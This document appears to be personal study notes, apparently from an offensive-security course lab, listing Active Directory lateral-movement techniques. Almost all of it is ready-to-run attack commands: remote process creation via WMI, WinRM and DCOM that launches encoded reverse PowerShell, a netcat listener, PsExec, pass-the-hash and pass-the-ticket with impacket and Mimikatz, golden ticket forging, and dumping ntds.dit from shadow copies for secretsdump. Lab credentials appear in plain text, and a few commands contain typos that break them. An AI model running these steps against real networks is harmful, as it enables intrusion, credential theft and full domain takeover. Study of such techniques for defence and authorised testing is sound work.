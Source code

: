 
| [[12 Active Directory-Lateral Movement#WMI & WinRM\|WMI & WinRM]]         | [[12 Active Directory-Lateral Movement#PSExec\|PsExec]]<br> | [[12 Active Directory-Lateral Movement#Pass-the-Hash (PtH)\|Pass-the-Hash (PtH)]] | [[12 Active Directory-Lateral Movement#Overpass the Hash\|Overpass the Hash]] |
| ---------------------------------------------------------------------- | -------------------------------------------------------- | ------------------------------------------------------------------------------ | -------------------------------------------------------------------------- |
| [[12 Active Directory-Lateral Movement#Pass The Ticket\|Pass The Ticket]] | [[12 Active Directory-Lateral Movement#DCOM\|DCOM]]         | [[12 Active Directory-Lateral Movement#Golden Ticket\|Golden Ticket]]             | [[12 Active Directory-Lateral Movement#Shadow Copies\|Shadow Copies]]         |
## WMI & WinRM
```powershell
### PowerShell WMIC Attack
# Store Credentials in PowerShell object
C:\Users\stephanie> $username='jen'; $password='Nexus123!';
C:\Users\stephanie> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force
C:\Users\stephanie> $credentials = New-Object System.Management.Automation.PSCredential $username,$secureString

# Create a Common Information Mode (CIM)
C:\Users\stephanie> $options = New-CimSessionOption -Protocol DCOM
C:\Users\stephanie> $session = NewCimsession -ComputerName <TARGET_IP> -Credential $credential -SessionOption $options

# Generate reverse powershell in encode.py and set command
kali@kali:~$ python3 encode.py # remember to change ip and port
C:\Users\stephanie> $command = '<encode.py output>'

# Prep listener on Kali
kali@kali:~$ nc -nvlp 4444

# Execute the code via Invoke CimMethod
C:\Users\stephanie> Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguemnts @{CommandLine=$command};

### WinRM via Windows Remote Shell (domain admin or remote management users)
C:\Users\stephanie> winrs -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
# can replace cmd /c with reverse shell code

### PowerShell Remoting via PSSession
PS C:\Users\stephanie> New-PSSession -ComputerName 192.168.50.73 -Credential $credential
PS C:\Users\stephanie> Enter-PSSession 1
```
## PSExec
```powershell
# Start interactive session on remote host via PsExec (inside SysinternalsSuite)
PS C:\Users\stephanie> .\PsExec64.exe -i \\FILES04 -u corp/jen -p Nexus123! cmd
```
### Pass-the-Hash (PtH)
```shell
# Refer to Password Pwning for more detail
kali@kali:~$ impacket-wmiexec -hashes :<NTLM_HASH> Administrator@192.168.50.73
# only works for AD domain accounts and built-in local admin account
```
## Overpass the Hash
```powershell
# When RDP-ed in, Shift Right-Click an application, Run as different user

# View cached credentials of that user on Mimikatz
mimikatz> privilege::debug
mimikatz> sekurlsa::logonpasswords

# Convert the NTLM hash into a Kerberos Ticket (TGT)
mimikatz> sekurlsa::pth /user:jen /domain:crop.com /ntlm:<NTLM_HASH> /run:powershell
# Creates powershell session, executes as jen but shows whoami as previous user since it does not inspect Kerberos tickets

# List the cached Kerberos tickets
PS C:\Users\stephanie> klist

# Execute interactive login to generate TGT
PS C:\Users\stephanie> net use \\files04

# View newly requested Kerberos tickets
PS C:\Users\stephanie> klist
# TGT ticket will have the server be krbtgt
# TGS ticket would have the server as CIFS (file server)

# Run PsExec to launch cmd remotely on files04
PS C:\Users\stephanie> .\PsExec.exe \\files04 cmd
```
## Pass The Ticket
```shell
# Export all TGT/TGS using Mimikatz
mimikatz> privilege::debug
mimikatz> sekurlsa::tickets /export

# View exported tickets
PS C:\Users\stephanie> dir *.kirbi

# Inject the TGS ticket into current session with Mimikatz
mimikatz> kerberos::ptt <TGS-file>

# Verify ticket injected
PS C:\Users\stephanie> klist
```
### DCOM
```powershell
# Instantiate a remote MMC2.0 application
PS C:\Users\stephanie> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<TARGET_IP>"))

# Utilize ExecuteShellCommand on the application object $dcom
PS C:\Users\stephanie> $dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
# Format: (<COMMAND>,<DIRECTORY>,<PARAMETERS>,<WINDOW_STATE>)

# Same thing but with Powershell script
PS C:\Users\stephanie> $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e ...","7")
```
## Golden Ticket
```shell
# Requires krbtgt password hash

# Retrieve krbtgt password hash on DC1 (already have access)
mimikatz> privilege::debug
mimikatz> lsadump::lsa /patch

# Delete existing Kerberos tickets (if any)
mimikatz> kerberos::purge

# Create the golden ticket (using existing AD account)
mimikatz> kerberos::golden /user:jen /domain:corp.com /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_NTLM_HASH> /ptt

# PsExec.exe to enter
mimikatz> misc::cmd
C:\Users\stephanie> .\PsExec.exe \\dc1 cmd.exe
```
## Shadow Copies
```shell 
# Requires Domain Admin
C:\Users\stephanie> vshadow.exe -nw -p C:
# take note of shadow copy device name

# Copy entire AD database from the shadow copy
C:\Users\stephanie> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

# Extract the SYSTEM hive
C:\Users\stephanie> reg.exe save hklm\system c:\system.bak

# Extract credentials after moving both files
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL

# Better to move laterally to DC and execute DCSync attack with mimikatz
```